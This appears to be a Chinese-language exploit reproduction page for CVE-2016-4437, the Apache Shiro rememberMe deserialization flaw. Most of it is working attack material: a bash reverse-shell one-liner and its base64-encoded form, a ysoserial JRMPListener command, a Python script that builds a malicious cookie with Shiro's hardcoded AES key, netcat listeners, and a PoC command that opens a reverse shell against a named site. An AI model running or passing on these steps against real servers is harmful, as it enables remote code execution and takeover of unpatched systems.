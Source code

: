 ```yaml
---
title: shiro
---
```


## CVE-2016-4437）Apache Shiro <= v1.2.4 反序列化漏洞
一、漏洞简介
Apache shiro默认使用了CookieRememberMeManager，其处理cookie的流程是：得到rememberMe的cookie值-->Base64解码-->AES解密-->反序列化。
然而AES的密钥是硬编码的，就导致了攻击者可以构造恶意数据造成反序列化的RCE漏洞。
## 二、漏洞影响
Apache Shiro <= v1.2.4

三、复现过程
##
## bash 转码地址
http://www.jackson-t.ca/runtime-exec-payloads.html
## bash -i >& /dev/tcp/127.0.0.1/1234 0>&1
## ![image.png](/assets/pages_shiro_1614145050794_0.png)
## 姿势一
在vps上开启rmi注册表服务|
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections4 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}'
## ![image.png](/assets/pages_shiro_1614145077881_0.png)
## 生成payload
python exploit.py vps:1099
## ![image.png](/assets/pages_shiro_1614145089851_0.png){:height 150, :width 626}
## exploit.py
```python
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext


if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
print "rememberMe={0}".format(payload.decode())
```
nc监听
nc -lvvp 8888
使用burp发送生成好的payload
## ![image.png](/assets/pages_shiro_1614145153048_0.png)
## ![image.png](/assets/pages_shiro_1614145163486_0.png)
## poc
https://github.com/ianxtianxt/ShiroScan
## 首先我们在服务器中进行监听

nc -lvvp 1234
执行poc进行反弹shell
## python3 shiro.py https://www.0-sec.org "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}"
## ![image.png](/assets/pages_shiro_1614144876802_0.png)
## ![image.png](/assets/pages_shiro_1614144883758_0.png)
